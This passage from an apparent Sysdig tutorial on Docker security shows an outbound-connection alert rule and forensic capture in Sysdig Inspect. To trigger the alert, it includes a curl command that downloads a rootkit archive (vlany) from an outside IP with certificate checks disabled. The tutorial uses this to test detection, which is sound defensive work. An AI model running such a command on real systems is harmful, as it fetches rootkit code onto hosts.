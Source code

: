 Our ‘result’ containers just need to connect to the PostgreSQL database and wait for connections in the HTTP (80) port.

    ss -aut
    tcp   ESTAB      0      0     10.44.0.3:42862       10.106.140.89:postgresql
    tcp   LISTEN     0      128   :::http               :::*
    

If you want to receive an alert on unexpected outbound traffic you can write a rule similar to this one:

    - rule: Unauthorized outbout connection
      desc: Container opened an unexpected connection to foreign host
      condition: outbound and fd.sport != 5432
      output: Unauthorized outbout connection (connection=%fd.name)
      priority: WARNING

We are going to create a policy similar to the other two using this new rule, but let’s enable the Sysdig capture this time:

[<img src="https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/11/create_inspect_capture.png" alt="Create Sysdig Inspect capture" width="500" height="400" class="alignleft size-full wp-image-5273" />][12]   
  
This capture includes every system call and kernel event making it an extremely powerful <a href="https://sysdigrp2rs.wpengine.com/blog/fishing-for-hackers/" target="_blank">container forensics</a> and <a href="https://sysdigrp2rs.wpengine.com/blog/the-big-oom-theory/" target="_blank">container troubleshooting</a> data source.

Log into any ‘result’ container and download malicious code

    curl --insecure https://198.84.60.200/UNIX/penetration/rootkits/vlany-master.tar.gz -o vlany-master.tar.gz
    

You will receive an alert event like this:

[<img src="https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/11/outbound_connection_alert-1024x87.png" alt="Docker Security outbound connection" width="1024" height="87" class="alignleft size-large wp-image-5339" />][13]   
  
Note the blue capture icon associated with this specific alert.

If you click on the *Captures* tab, you will be able to browse every capture file associated with this or any other rule.

[<img src="https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/11/sysdig_inspect_docker_capture_file.png" alt="Sysdig Inspect docker security capture" width="1102" height="88" class="alignleft size-full wp-image-5342" />][14]   
  
From right to left, you can delete the capture file, download it to your computer, see the associated event, or directly open it on <a href="https://sysdigrp2rs.wpengine.com/blog/sysdig-inspect/" target="_blank">Sysdig Inspect</a> (the orange shovel icon).

### Post-mortem analysis on containers and Docker forensics {#postmortemanalysisoncontainersanddockerforensics}

Once you click on the shovel icon, you will be presented to an interface similar to this one:

[<img src="https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/11/sysdig_inspect_overview.png" alt="Sysdig Inspect overview" width="2500" height="1261" class="alignleft size-full wp-image-5270" />][15]   
  
If you analyze the file operations associated with this event, you can see the actual files that were modified in your system during this attack.


 [1]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/11/sysdig_secure_overview.png
 [2]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/11/sysdig_secure_feed.png
 [3]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/11/sysdig_secure_groupings.png
 [4]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/11/sysdig_secure_topology.png
 [5]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/11/sysdig_secure_example_topology.png
 [6]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/11/shell_in_container.png
 [7]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/11/read_sentitive_event.png
 [8]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/11/secure_new_policy-1.png
 [9]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/11/secure_unathorized_process.png
 [10]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/11/secure_write_to_nonwrittable-1.png
 [11]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/11/secure_write_to_nonwrittable_event.png
 [12]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/11/create_inspect_capture.png
 [13]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/11/outbound_connection_alert.png
 [14]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/11/sysdig_inspect_docker_capture_file.png
 [15]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/11/sysdig_inspect_overview.png
 [16]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/11/docker_security_malware_file2.png
